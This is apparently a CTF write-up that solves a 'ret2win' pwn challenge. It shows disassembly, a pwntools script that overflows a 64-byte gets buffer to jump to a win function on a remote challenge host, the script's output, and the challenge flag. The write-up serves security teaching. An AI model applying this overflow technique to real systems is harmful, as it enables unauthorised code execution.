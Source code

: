 # Returning to Winning

## Description
A simple pwn challenge

Flag Format: 0CTF{}

## Flag

```
0CTF{r3t2w!n_c4n_b3_v3ry_e4sy}
```

## Solution

On decompiling (dogbolt.org) the `c` ELF file, we get `c_HexRays.c`. The challenge can be solved using a simple buffer overflow exploit that overwrites the return address stored on the stack (rip register).

We can confirm this from the `c.s` file which we get using `objdump -d c > c.s`.

It gives:

```asm
; gets call
  40125b:	48 8d 45 c0          	lea    -0x40(%rbp),%rax
  40125f:	48 89 c7             	mov    %rax,%rdi
  401262:	b8 00 00 00 00       	mov    $0x0,%eax
  401267:	e8 14 fe ff ff       	call   401080 <gets@plt>
```

So, it confirms the memory layout of the char array. It is like `... | 64 byte char array | rbp | rip | ...` on the stack.

We can overwrite the `rip` with the return address of the function which we can get from the `c_HexRays.c` file and verify in the `c.s` file.

```asm
; win function
  401196:	55                   	push   %rbp
  401197:	48 89 e5             	mov    %rsp,%rbp
  40119a:	48 83 ec 10          	sub    $0x10,%rsp
  40119e:	48 8d 05 63 0e 00 00 	lea    0xe63(%rip),%rax        # 402008 <fopen@plt+0xf68>
  4011a5:	48 89 c7             	mov    %rax,%rdi
  4011a8:	e8 93 fe ff ff       	call   401040 <puts@plt>
  ...
```

```c
//----- (0000000000401196) ----------------------------------------------------
int sub_401196() {
	char v1;      // [rsp+7h] [rbp-9h]
	FILE *stream; // [rsp+8h] [rbp-8h]
    ...
```

The address is `0x401196`.

We can do all this using a simple pwntools script.

```py
from pwn import *


r = remote("13.232.34.171", 32644)
r.recvuntil(b"return.")

addr = 0x401196
addr_repr = addr.to_bytes(8, "little")

# Fill the array and the stored rbp register value with padding data.
# Overwrite the saved rip register with the address of the subroutine that prints the flag.
r.send(b"A" * (0x40 + 8) + addr_repr + b"\n")
print(r.recvall())
```

The output after running this gives:

```
$ python solve.py 
[+] Opening connection to 13.232.34.171 on port 32644: Done
[+] Receiving all data: Done (102B)
[*] Closed connection to 13.232.34.171 port 32644
b"Congratulations! You've called the win function.\nContents of flag.txt:\n0CTF{r3t2w!n_c4n_b3_v3ry_e4sy}\n"https://dogbolt.org/?id=1423efe5-0a25-4e41-8fef-bfbbbf03f57d#Hex-Rays=154
```

## References

## Attachments

- [challenge](https://drive.google.com/file/d/1oDxvAT8tgE_o7W2qTZAosTlfBQ2gLjar/view)
